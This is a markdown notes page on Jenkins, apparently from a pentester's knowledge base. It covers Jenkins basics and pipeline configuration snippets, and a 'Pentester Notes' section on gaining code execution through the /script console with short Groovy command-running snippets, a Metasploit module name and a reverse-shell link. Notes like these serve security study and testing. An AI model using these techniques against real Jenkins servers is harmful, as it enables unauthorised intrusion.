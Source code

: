# Jenkins

<div class="row row-cols-lg-2"><div>

[Jenkins](https://www.jenkins.io/) is an open-source automation server. It means that it's not a server hosting code, but it can be connected to a GIT server such as GitLab to process [CI/CD](index.md) workflows.

* [GitHub](https://github.com/jenkinsci/jenkins) <small>(23.7k ⭐)</small>
* [User Documentation](https://www.jenkins.io/doc/book/) <small>(⛪)</small>

The biggest strength of Jenkins is that it has a great number of [plugins](https://plugins.jenkins.io/), such as plugins to visualize CI results (tests, coverage...).
</div><div>

Jenkins is written in Java, while [Groovy](https://www.groovy-lang.org) is often used for plugins and for configuration files. It runs on [Apache Tomcat](/operating-systems/cloud/webservers/others/tomcat/index.md).

**Ports** 🐲: 8080 <small>(HTTP)</small> and 5000 <small>(Master/Slave communication)</small>.

Jenkins can be connected to a database or LDAP.
</div></div>

<hr class="sep-both">

## Jenkins Pentester Notes ☠️

[![attacking_common_applications](../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![jenkins_security](../../../cybersecurity/_badges/hacktricks/jenkins_security.svg)](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

<div class="row row-cols-lg-2"><div>

Useful reference: [pwn_jenkins](https://github.com/gquere/pwn_jenkins) <small>(2.0k ⭐)</small>.

#### Enumeration

* Try to access the login page (`/login`)

#### Foothold

* Some Jenkins instances don't have authentication
* Some Jenkins instances may allow us to create accounts
</div><div>

#### Exploitation

The `/script` endpoint can be used to run groovy code.

```groovy
def command = "ls /"
def stdout = new StringBuffer(), stderr = new StringBuffer()
def process = command.execute()
process.consumeProcessOutput(stdout, stderr)
process.waitForOrKill(1000)
def exitCode = process.exitValue()
def output = stderr + stdout

println("Exit Code: ${exitCode}")
println("Output:\n${output}")
```

➡️ See also: [revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) <small>(0.1k ⭐)</small>.

<details class="details-n">
<summary>Additional Notes For /script</summary>

Metasploit: `exploit/multi/http/jenkins_script_console`.

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/ls","-la"] as String[])
p.waitFor()
```

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
</details>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* master/slaves (a.k.a. workers)
* freestyle projects (web interface) vs pipeline jobs (as code)
* Jenkinsfile (groovy)
* `/var/lib/jenkins3/`
</div><div>

<details class="details-n">
<summary>Basic file</summary>

```java
pipeline {
    agent any
    stages {
        stage('xxx') {
            steps {
                git 'https://github.com/example/my-java-app.git'
                git branch: env.BRANCH_NAME, url: 'URL'
                sh 'xxx'
            }
        }
    }
}
```
</details>

<details class="details-n">
<summary>Add options</summary>

```java
    options {
        buildDiscarder(logRotator(numToKeepStr: '10', daysToKeepStr: '7'))
    }
```
</details>

<details class="details-n">
<summary>Poll SCM or webhooks to trigger a pipeline</summary>

```java
    triggers {
        cron('H H(0-7) * * 1-5')
        webhook('')
    }
```
</details>

<details class="details-n">
<summary>Artifacts are the output of the build</summary>

```java
    post {
        always {
            junit '*.xml'
        }
        success {
            archiveArtifacts '*.xml'
        }
    }
```
</details>

<details class="details-n">
<summary>Bonus</summary>

```java
stage('xxx') {
    when {
        branch 'development'
    }
}
```

```java
// https://plugins.jenkins.io/warnings-ng/
recordIssues(
    tools: [clangTidy(pattern: 'clang-tidy-report.txt')]
)
```
</details>
</div></div>